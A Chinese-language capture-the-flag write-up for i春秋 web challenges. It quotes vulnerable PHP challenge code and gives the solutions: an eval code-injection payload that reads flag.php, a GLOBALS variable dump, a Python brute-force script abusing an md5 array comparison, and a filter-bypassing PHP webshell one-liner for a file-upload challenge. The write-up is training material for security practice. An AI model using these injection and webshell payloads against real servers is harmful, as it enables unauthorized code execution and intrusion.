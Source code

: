 ```yaml
---
title: i春秋-CTF-Write-Up
date: 2018-03-23 20:53:29
categories: Write Up
tags:
 - ctf
 - wp
description:
---
```

记录在i春秋中的艰辛历史...
[i春秋CTF大本营](https://www.ichunqiu.com/battalion)
<!-- more -->
### 爆破-1
```php
include "flag.php";
$a = @$_REQUEST['hello'];
if(!preg_match('/^\w*$/',$a )){
  die('ERROR');
}
eval("var_dump($$a);");
show_source(__FILE__);
```
进入页面看见代码，正则过滤死了，只能输入英文字母和下划线。所以不能拼接字符串失败进行代码注入。
就可以尝试猜测变量，来获取想要看的内容。
直接传递`hello=flag`试试，发现提示`flag在一个长度为6的变量里面`。这样的话除非是纯数字，不然很不好爆破。
然后想到`$GLOBALS`，可以打印出所有全局变量。
尝试`hello=GLOBALS`。得到flag

<br>
### 爆破-2
```php
include "flag.php";
$a = @$_REQUEST['hello'];
eval( "var_dump($a);");
show_source(__FILE__);
```
没有正则过滤，直接拼接字符串就可以实现代码注入。
`hello=);print_r(file('flag.php')`，最后凭借的结果就是`eval( "var_dump(hello=);print_r(file('flag.php'));");`
直接打印`flag.php`的内容。

<br>

### 爆破-3
```php
error_reporting(0);
session_start();
require('./flag.php');
if(!isset($_SESSION['nums'])){
  $_SESSION['nums'] = 0;
  $_SESSION['time'] = time();
  $_SESSION['whoami'] = 'ea';
}
// 2分钟会销毁Session
if($_SESSION['time']+120<time()){
  session_destroy();
}

$value = $_REQUEST['value'];
// 创建a-z的数组
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];

// md5函数传入的是一个数组，所以返回为NULL，NULL==0  返回true
if($_SESSION['whoami']==($value[0].$value[1]) && substr(md5($value),5,4)==0){
  $_SESSION['nums']++;
  $_SESSION['whoami'] = $str_rands;
  echo $str_rands; // 注意这，他把第二次随机的值输出了，所以我们可以拿到这个值去来作为下次提交参数
}

if($_SESSION['nums']>=10){
  echo $flag;
}

show_source(__FILE__);
```
根据代码审计分析，最后写出爆破脚本(手工也是可以的)
```python
import requests


s = requests.Session()
url = "http://844c147e18614b3faab54a4662ac7776e86ece97eaf44f07.game.ichunqiu.com/?value[]=ea"
content = s.get(url).text
for i in range(11):
    url = "http://844c147e18614b3faab54a4662ac7776e86ece97eaf44f07.game.ichunqiu.com/?value[]={0}"
    url = url.format(content[0:2])
    content = s.get(url).text
    print(content)
```




<br>

### Upload
进入页面是一个上传界面，然后大概看下，直接上传一个正常的文件，发现上传成功。
并且页面中会返回你上传到哪里的链接，但是放很猥琐的(所以我开始没找到)

那么直接上传一个PHP看下有没有限制，发现直接上传成功。
但是访问的时候内容被过滤了。过滤了`<?`和`php`利用重写无法绕过，但是可以大小写PHP来达到绕过条件。
那么`<?`在利用一种其他的方式来代替`<script language='PHP'></script>`同样也可以
那么写入自己的一句话，最后的payload为`<script language='PHP'>$_POST[a]</script>`
菜刀连接，得到flag

<br>

### 1


<br>

### 1


<br>
